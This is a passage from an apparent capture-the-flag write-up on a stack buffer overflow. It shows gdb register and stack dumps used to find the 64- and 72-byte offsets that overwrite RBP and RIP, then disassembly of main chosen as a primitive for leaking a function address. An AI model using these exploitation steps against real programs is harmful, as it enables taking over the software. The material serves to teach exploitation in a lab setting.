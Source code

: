 ```gdb
-----------------------------------registers------------------------------------
rax : 0
rbx : 0
rcx : 99 'c'
rdx : 0
rsi : 0x6012c0 : 'changeme203\n'
rdi : 0x7fffffffda30 : 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama' + ...
rbp : 'qaaaraaa' (0x6161617261616171)
rsp : 0x7fffffffda78 : 'saaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfa' + ...
r8  : 0
r9  : 119 'w'
r10 : 180
r11 : 12
r12 : 0x400660 <_start+0>:	xor    ebp,ebp
r13 : 0x7fffffffdcc0 : 1
r14 : 0
r15 : 0
rip : 0x4007a5 <check_passphrase+79>:	ret    
--------------------------------------code--------------------------------------
   0x000000000040079e <check_passphrase+72>:	sete   al
   0x00000000004007a1 <check_passphrase+75>:	movzx  eax,al
   0x00000000004007a4 <check_passphrase+78>:	leave  
=> 0x00000000004007a5 <check_passphrase+79>:	ret    
-------------------------------------stack--------------------------------------
 0 0x7fffffffda78 : 'saaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfa' + ...
 8 0x7fffffffda80 : 'uaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabha' + ...
16 0x7fffffffda88 : 'waaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabja' + ...
24 0x7fffffffda90 : 'yaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaabla' + ...
32 0x7fffffffda98 : 'baabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabna' + ...
40 0x7fffffffdaa0 : 'daabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpa' + ...
48 0x7fffffffdaa8 : 'faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabra' + ...
56 0x7fffffffdab0 : 'haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta' + ...
-------------------------------------frame--------------------------------------
#0  0x00000000004007a5 in check_passphrase ()
(gdb) gx cyclic -s qaaaraaa
64
```

We can conclude from this that we overwrite `RBP` after 64 bytes. `RIP` will be overwriten shortly after, at 72 bytes.

## LEAK a function's address

Now that we know how to gain control of the execution flow, we'll have to leak a function's address. To do so, we need a primitive that will display the memory for us and allow us to keep control afterward.

The main function is perfect for this purpose:

```C
|       :   0x004009ca      e821fcffff     call sym.imp.strlen         ; size_t strlen(const char *s)
|       :   0x004009cf      4889c2         mov rdx, rax                ; size_t nbytes
|       :   0x004009d2      488d85b0feff.  lea rax, [local_150h]
|       :   0x004009d9      4889c6         mov rsi, rax                ; void *ptr
|       :   0x004009dc      bf01000000     mov edi, 1                  ; int fd
|       :   0x004009e1      e8eafbffff     call sym.imp.write          ; ssize_t write(int fd, void *ptr, size_t nbytes)
|       :   0x004009e6      488d8530ffff.  lea rax, [local_d0h]
|       :   0x004009ed      bac8000000     mov edx, 0xc8               ; 200 ; size_t nbyte
|       :   0x004009f2      4889c6         mov rsi, rax                ; void *buf
|       :   0x004009f5      bf00000000     mov edi, 0                  ; int fildes
|       :   0x004009fa      e801fcffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
```